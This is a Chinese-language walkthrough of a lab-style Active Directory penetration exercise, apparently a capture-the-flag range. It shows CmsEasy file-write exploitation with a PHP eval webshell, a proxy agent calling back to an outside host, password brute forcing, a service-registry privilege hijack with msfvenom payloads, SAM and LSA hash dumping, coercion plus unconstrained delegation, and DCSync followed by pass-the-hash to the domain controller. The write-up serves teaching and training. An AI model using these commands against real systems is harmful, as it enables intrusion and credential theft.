# 域渗透-Delegation-先知社区

> **来源**: https://xz.aliyun.com/news/19327  
> **文章ID**: 19327

---

# 外网打点

```
root@iZbp1dvkksxmcy6upo0fz0Z:~# ./fscan -h 39.101.135.175
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.1

[2.6s]     已选择服务扫描模式
[2.6s]     开始信息扫描
[2.6s]     最终有效主机数量: 1
[2.6s]     开始主机扫描
[2.6s]     使用服务插件: activemq, cassandra, elasticsearch, findnet, ftp, imap, kafka, ldap, memcached, modbus, mongodb, ms17010, mssql, mysql, neo4j, netbios, oracle, pop3, postgres, rabbitmq, rdp, redis, rsync, smb, smb2, smbghost, smtp, snmp, ssh, telnet, vnc, webpoc, webtitle
[2.6s]     有效端口数量: 233
[2.7s] [*] 端口开放 39.101.135.175:80
[2.7s] [*] 端口开放 39.101.135.175:3306
[2.7s] [*] 端口开放 39.101.135.175:21
[2.7s] [*] 端口开放 39.101.135.175:22
[2.7s]     扫描完成, 发现 4 个开放端口
[2.7s]     存活端口数量: 4
[2.7s]     开始漏洞扫描
[2.8s]     POC加载完成: 总共387个，成功387个，失败0个
[2.9s] [*] 网站标题 http://39.101.135.175     状态码:200 长度:68112  标题:中文网页标题
```

访问web界面，发现是cmseasy


先来一个目录枚举



访问/admin，弱口令admin:123456直接登入后台

泄露了具体版本

上网搜索相关利用



## 利用:cve-2021-42643

CmsEasy\_7.7.5\_20211012存在任意文件写入和任意文件读取漏洞



利用一下



```
POST /index.php?case=template&act=save&admin_dir=admin&site=default HTTP/1.1
Host: 39.101.135.175
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: PHPSESSID=0r95m541dvhjkocc5u3dft50l3; login_username=admin; login_password=a14cdfc627cef32c707a7988e70c1313
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Referer: http://39.101.135.175/index.php?case=admin&act=login&admin_dir=admin&site=default
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 121

sid=#data_d_.._d_.._d_.._d_1.php&slen=693&scontent=<?php phpinfo();?>
```

写入成功，这里我们写入一句话木马

```
sid=#data_d_.._d_.._d_.._d_shell.php&slen=693&scontent=<?php @eval($_POST[1]);?>
```



通过蚁剑进行连接

## SUID提权

```
find / -perm -u=s -type f 2>/dev/null
```



<https://gtfobins.github.io/gtfobins/diff/>





利用diff读取flag01.txt

```
diff --line-format=%L /dev/null /home/flag/flag01.txt
```



给了一个用户名，提示rock

# 内网代理搭建

这里我们选择stowaway来搭建内网代理

<https://github.com/ph4ntonn/Stowaway/>

```
./admin -s 1234 -l 1234
```





受控机

```
./agent -c 121.43.248.185:1234 -s 1234
```







使用proxifier挂上代理

<https://get-shell.com/1506.html>







上传fscan扫描内网

```
./fscan -h 172.22.4.36/24
```

```
172.22.4.36:21 open
172.22.4.7:88 open
172.22.4.36:3306 open
172.22.4.45:80 open
172.22.4.45:445 open
172.22.4.7:445 open
172.22.4.19:139 open
172.22.4.45:139 open
172.22.4.7:139 open
172.22.4.19:135 open
172.22.4.45:135 open
172.22.4.7:135 open
172.22.4.36:22 open
172.22.4.19:445 open
172.22.4.36:80 open
[*] NetBios 172.22.4.45     XIAORANG\WIN19                
[*] NetInfo 
[*]172.22.4.7
   [->]DC01
   [->]172.22.4.7
[*] NetInfo 
[*]172.22.4.19
   [->]FILESERVER
   [->]172.22.4.19
[*] OsInfo 172.22.4.7	(Windows Server 2016 Datacenter 14393)
[*] NetBios 172.22.4.7      [+] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393
[*] NetInfo 
[*]172.22.4.45
   [->]WIN19
   [->]172.22.4.45
[*] NetBios 172.22.4.19     FILESERVER.xiaorang.lab             Windows Server 2016 Standard 14393
[*] WebTitle http://172.22.4.36        code:200 len:68071  title:中文网页标题
[*] WebTitle http://172.22.4.45        code:200 len:703    title:IIS Windows Server

```

整理一下数据

```
172.22.4.45     XIAORANG\WIN19
172.22.4.7      DC01.xiaorang.lab
172.22.4.19     FILESERVER
172.22.4.36     跳板机
```

# 172.22.4.45

前面给力win19的用户名，而且提示rock，这里我们在扫一下win19的端口

```
./fscan1.84 -h 172.22.4.45  -p 1-65535
```



发现开启了3389和445端口，那么我们使用用户名Adrian爆破一下

这里我们需要用到kali里面的工具，因此修改一下proxychains4.conf文件

```
sudo vim /etc/proxychains4.conf 
```

在最后加上我们的代理即可

## 利用1:hydra

```
proxychains4 -q hydra 172.22.4.45 rdp -l Adrian -P /usr/share/wordlists/rockyou.txt
```

​

## 利用2:crackmapexec

```
proxychains4 -q crackmapexec smb 172.22.4.45 -u 'Adrian' -p /usr/share/wordlists/rockyou.txt --local-auth
```

最后可以爆破出来密码

```
Adrian / babygirl1
```



```
[-] WIN19\Adrian:babygirl1 STATUS_PASSWORD_EXPIRED
```

表示密码过期，需要修改一下

这里使用impacket-changepasswd去改会报错改不了

```
impacket-changepasswd xiaorang.lab/Adrian:'babygirl1'@172.22.4.45 -newpass 'Admin123.'
```



这里我们使用rdesktop来修改密码

```
proxychains4 -q  rdesktop 172.22.4.45
```





登上去发现桌面给了提示





```
Name              : gupdate
ImagePath         : "C:\Program Files (x86)\Google\Update\GoogleUpdate.exe" /svc
User              : LocalSystem
ModifiablePath    : HKLM\SYSTEM\CurrentControlSet\Services\gupdate
IdentityReference : BUILTIN\Users
Permissions       : WriteDAC, Notify, ReadControl, CreateLink, EnumerateSubKeys, WriteOwner, Delete, CreateSubKey, SetV
                    alue, QueryValue
Status            : Stopped
UserCanStart      : True
UserCanStop       : True
```

本地用户组有权限修改gupdate服务的注册表，且该服务拥有system的权限

这里我们的思路是，生成一个木马，然后修改注册表为木马的路径，这样该服务启动时，会执行这个木马

```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=4444 -f exe-service -o 1.exe
```

同时msf开启监听

```
proxychains4 -q msfconsole
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set RHOST 172.22.4.45
run
```

修改注册表

```
reg add "HKLM\SYSTEM\CurrentControlSet\Services\gupdate" /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\Adrian\Desktop\1.exe" /f
```

查询一下

```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\gupdate" /v ImagePath
```



启动服务

```
sc start gupdate
```





连不上，这里换一种思路，把sam文件给读出来

```
msfvenom -p windows/x64/exec cmd='C:\windows\system32\cmd.exe /c C:\users\Adrian\Desktop\sam.bat ' --platform windows -f exe-service > sam.exe
```



sam.bat写入以下内容

```
reg save hklm\system C:\Users\Adrian\Desktop\system
reg save hklm\sam C:\Users\Adrian\Desktop\sam
reg save hklm\security C:\Users\Adrian\Desktop\security
```

然后修改注册表

```
reg add "HKLM\SYSTEM\CurrentControlSet\Services\gupdate" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Adrian\Desktop\sam.exe" /f
```

然后启动服务

```
sc start gupdate
```



把这些文件拖到kali里面

```
┌──(kali㉿kali)-[~/sam]
└─$ impacket-secretsdump LOCAL -sam sam -system system -security security 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x08092415ee8b9b2ad2f5f5060fb48339
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ba21c629d9fd56aff10c3e826323e6ab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:44d8d68ed7968b02da0ebddafd2dd43e:::
Adrian:1003:aad3b435b51404eeaad3b435b51404ee:3766c17d09689c438a072a33270cb6f5:::
[*] Dumping cached domain logon information (domain/username:hash)
XIAORANG.LAB/Aldrich:$DCC2$10240#Aldrich#e4170181a8bb2a24e6113a9b4895307a: (2022-06-24 03:18:39+00:00)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:4432409003507f267f3b774a7d6e6ae56fd1e9f11a548310f10ca9e1530237dff290e73c3c811e789743dac3c0cbf070eb77b8ccffd1fe655210677f79e5a749bdafcea53356b260140d9a062d40c4ce2ac00b25cd6e06b71acc17e603b6f7bfd60ac9046307b7225b971e0aeb7c83c2e1c1612da08c7d8bd0eb5900180bcd4427ab6df4a41a09749285b24b1fbefd7ff6a2239c36eb7ac835887b3951a6842c518b90496a09b768b6c3f42f48cb26a51827889324805dbd987087c16dff3e8ebc51af46ab4f3014de5fd4ae128d80cbbaea19fc01b71d22e0998780eab8337b5bda2f49dfaf3e5375bdeed507befd71
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:fec226afd3e779082bc1e7309363cb7c
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x4af114bade59102b7c64e41cde94be2257337fab
dpapi_userkey:0x372392e560b616ecd27b6ec0fe138ef86790b565
[*] NL$KM 
 0000   56 4B 21 B3 87 A3 29 41  FD 91 8F 3A 2D 2B 86 CC   VK!...)A...:-+..
 0010   49 4A EE 48 6C CD 9C D7  C7 DA 65 B6 62 4D 35 BD   IJ.Hl.....e.bM5.
 0020   09 F7 59 68 23 69 DE BA  2D 47 84 47 29 AD 5D AE   ..Yh#i..-G.G).].
 0030   A0 5F 19 CA 21 13 E4 6D  01 27 C3 FC 0C C1 0F 2E   ._..!..m.'......
NL$KM:564b21b387a32941fd918f3a2d2b86cc494aee486ccd9cd7c7da65b6624d35bd09f759682369deba2d47844729ad5daea05f19ca2113e46d0127c3fc0cc10f2e
[*] Cleaning up... 
```

我们获得了administrator的hash，哈希传递一下

```
proxychains4 -q impacket-psexec administrator@172.22.4.45 -hashes "aad3b435b51404eeaad3b435b51404ee:ba21c629d9fd56aff10c3e826323e6ab" -codec gbk
```



# BloodHound信息收集

我们前面通过sam文件dump出来了hash，其中

```
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:4432409003507f267f3b774a7d6e6ae56fd1e9f11a548310f10ca9e1530237dff290e73c3c811e789743dac3c0cbf070eb77b8ccffd1fe655210677f79e5a749bdafcea53356b260140d9a062d40c4ce2ac00b25cd6e06b71acc17e603b6f7bfd60ac9046307b7225b971e0aeb7c83c2e1c1612da08c7d8bd0eb5900180bcd4427ab6df4a41a09749285b24b1fbefd7ff6a2239c36eb7ac835887b3951a6842c518b90496a09b768b6c3f42f48cb26a51827889324805dbd987087c16dff3e8ebc51af46ab4f3014de5fd4ae128d80cbbaea19fc01b71d22e0998780eab8337b5bda2f49dfaf3e5375bdeed507befd71
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:fec226afd3e779082bc1e7309363cb7c
```

其中$MACHINE.ACC表示的是Machine Account（计算机账户）

这里我们使用win19的hash来进行bloodhound的搜集

```
proxychains4 -q bloodhound-python -u win19$ --hashes "aad3b435b51404eeaad3b435b51404ee:fec226afd3e779082bc1e7309363cb7c" -d xiaorang.lab -dc dc01.xiaorang.lab -c all --dns-tcp -ns 172.22.4.7 --auth-method ntlm --zip
```

在此之前，要修改一下resolv.conf

```
sudo vim /etc/resolv.conf
在末尾加一下，指定一下dnd服务器
nameserver 172.22.4.7
```





CoerceToTGT

<https://bloodhound.specterops.io/resources/edges/coerce-to-tgt>

# 非约束委派

这里我们先修改一个win19这台机器administrator的密码，然后rdp连接上去

```
net user Administrator Admin123.
```



上传Rubeus.exe,监控DC01$有关的TGT

```
Rubeus.exe monitor /interval:1 /nowrap /targetuser:DC01$
```

这里有多种方式进行强制身份验证

<https://forum.butian.net/share/1944>

## DFSCoerce强制身份验证

<https://github.com/Wh04m1001/DFSCoerce/blob/main/dfscoerce.py>

```
proxychains4 -q python3 dfscoerce.py -u win19$ -hashes "aad3b435b51404eeaad3b435b51404ee:fec226afd3e779082bc1e7309363cb7c" -d xiaorang.lab win19 172.22.4.7
```





## PeitiPotam强制身份验证

<https://github.com/topotam/PetitPotam/blob/main/PetitPotam.py>

```
proxychains4 -q python3 PetitPotam.py -u "WIN19$" -hashes :fec226afd3e779082bc1e7309363cb7c -dc-ip 172.22.4.7 WIN19 172.22.4.7
```



这里我们可以直接使用Rubeus.exe讲票据导入

```
Rubeus.exe ptt /ticket:<base64编码>
```

导入之后，上传mimikatz，把域控的hash给dump出来

```
lsadump::dcsync /domain:xiaorang.lab /user:xiaorang\Administrator
```



```
4889f6553239ace1f7c47fa2c619c252
```

或者说，把base64的编码，解码后保存为kirbi文件，然后使用mimikatz导入

```
echo 'base64编码' | base64 -d > dc.kirbi
```

先清空一下票据

```
kerberos::purge
```



然后导入dc.kirbi

```
kerberos::ptt dc.kirbi
```



最后dump一下administrator的hash

```
lsadump::dcsync /domain:xiaorang.lab /user:administrator
```



完整命令：

```
mimikatz.exe "kerberos::purge" "kerberos::ptt dc.kirbi" "lsadump::dcsync /domain:xiaorang.lab /user:administrator" "exit"
```

# 横向移动

利用域控的hash横向到172.22.4.19

```
┌──(kali㉿kali)-[~]
└─$ proxychains4 -q impacket-wmiexec -hashes :4889f6553239ace1f7c47fa2c619c252 xiaorang.lab/Administrator@172.22.4.19
```

​



最后横向移动到域控172.22.4.7

```
┌──(kali㉿kali)-[~]
└─$ proxychains4 -q impacket-wmiexec -hashes :4889f6553239ace1f7c47fa2c619c252 administrator@172.22.4.7 -codec gbk
```


